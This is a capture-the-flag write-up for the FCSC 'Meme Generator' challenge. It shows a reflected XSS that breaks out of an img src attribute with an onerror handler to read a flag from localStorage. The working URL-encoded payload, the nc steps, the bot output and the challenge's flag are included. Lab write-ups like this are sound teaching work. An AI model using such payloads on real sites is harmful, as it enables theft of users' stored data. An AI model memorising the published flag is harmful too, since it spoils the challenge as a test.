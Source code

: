# Meme Generator


## Challenge Statement

This meme generation application is vulnerable to a very classic technique. The bot accessible via the service holds the flag in its localStorage.

- Web application: [meme-generator.fcsc.fr](https://meme-generator.fcsc.fr/)
- Bot: `nc chall.fcsc.fr 2210` (the bot cannot access the internet)

---

## Solution

1.  **Goal:** Get the flag from the bot's `localStorage` on the `CHALLENGE_HOST` domain.
2.  **Vulnerability Class:** The prompt mentions a "très classique" technique and `localStorage`. The bot visits a user-provided URL after setting the flag on the challenge domain. This strongly suggests a client-side vulnerability, likely Cross-Site Scripting (XSS), targeting the page the bot visits. We need to inject JavaScript that runs *on* the challenge domain.
3.  **Application Analysis:**
    *   The web application takes `image` and `text` parameters via GET.
    *   It displays an image using `<img src="img/<?php echo $_GET['image']; ?>" ...>`.
    *   It displays text using `<div class="meme-text"><?php echo strtoupper($_GET['text']); ?></div>`.
    *   The vulnerable code block is only executed if *both* `image` and `text` GET parameters are set.
    *   The `image` parameter is directly echoed within an `<img>` tag's `src` attribute, preceded by `img/`. This is a classic Reflected XSS vulnerability point. We can break out of the `src` attribute and inject arbitrary HTML/attributes.
    *   The `text` parameter is also echoed, but `strtoupper()` is applied, making standard HTML/JavaScript tag injection (`<script>`, `<img>`, etc.) difficult.
4.  **Exploitation Strategy:**
    *   Focus on the `image` parameter. We can inject an `onerror` attribute into the `<img>` tag. This attribute executes JavaScript if the image fails to load (which we can easily make happen).
    *   The bot visits *our* provided URL. To access the `localStorage` of `CHALLENGE_HOST`, our provided URL *must* be on the `CHALLENGE_HOST` origin (e.g., `http://chall/`).
    *   The bot helpfully tells us: "Every console.log usage on the bot will be sent back to you :)". This is our exfiltration channel.
    *   The JavaScript payload needs to read `localStorage.getItem('flag')` and output it using `console.log()`.
5.  **Crafting the Payload:**
    *   The injection goes into the `image` parameter.
    *   We need to close the `src` attribute and inject `onerror`. A simple way is to provide `x"` to close `src="img/`. Then add `onerror="...our payload..."`.
    *   Full injection string for the `image` parameter: `x" onerror="console.log(localStorage.getItem('flag'))"`
    *   When this is echoed into the `<img>` tag, it becomes `<img src="img/x" onerror="console.log(localStorage.getItem('flag'))" class="img-fluid">`. `img/x` won't exist, triggering the `onerror`.
    *   We also need the `text` parameter to be set for the vulnerable code to run. The content doesn't matter, let's use `a`.
6.  **Constructing the Malicious URL:**
    *   The base URL the bot understands is `http://chall/`.
    *   We need to use GET parameters: `image` and `text`.
    *   URL: `http://chall/?image=x" onerror="console.log(localStorage.getItem('flag'))"&text=a`
    *   It's good practice to URL-encode special characters in parameter values, although often not strictly necessary for basic cases like this. Let's encode the quotes and parentheses for robustness:
        *   `"` -> `%22`
        *   `(` -> `%28`
        *   `)` -> `%29`
        *   `=` inside the value -> `%3D`
    *   Encoded payload for `image`: `x%22%20onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22` (adding `%20` for the space is optional but clearer). Let's simplify and remove the space after `x"`: `x%22onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22`
    *   The final URL to give the bot: `http://chall/?image=x%22onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22&text=a`

7.  **Execution:**
    *   Connect to the bot: `nc chall.fcsc.fr 2210`
    *   When prompted for the URL, paste the crafted URL.
    *   The bot will visit `http://chall/`, set the flag, then visit your URL.
    *   When visiting your URL, the server will render the page with the injected `<img>` tag.
    *   The browser will execute the `onerror` handler.
    *   The `console.log()` output will be sent back to your netcat session.

**Steps to Solve:**

1.  Open a terminal.
2.  Connect to the bot: `nc chall.fcsc.fr 2210`
3.  Wait for the prompt: `Please provide the URL you want to visit:`
4.  Paste the following URL and press Enter:
    `http://meme-generator/?image=x%22onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22&text=a`
5.  Wait for the bot to process. You should receive the flag as output in your terminal.

**Example Output (what you might see after pasting the URL):**

```
(base) salaheddinealabouch@Salah-Eddines-MacBook-Pro Persist % nc chall.fcsc.fr 2210
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
http://meme-generator/?image=x%22onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22&text=a

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://meme-generator/...
[T1]> navigating        | http://meme-generator/

Going to the user provided link...
[T1]> navigating        | http://meme-generator/?image=x%22onerror%3D%22console.log%28localStorage.getItem%28%27flag%27%29%29%22&text=a
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (Not Found)
[T1]> console.log       | FCSC{7ceb95bed1244c477d15967098cb71ec98e98678c2f2375de098e5919dba0bd8}

Leaving o/
[T1]> Tab closed!
[T0]> Tab closed!

```

The line starting with `FCSC{` is the flag.

---

## Flag

FCSC{7ceb95bed1244c477d15967098cb71ec98e98678c2f2375de098e5919dba0bd8}

---
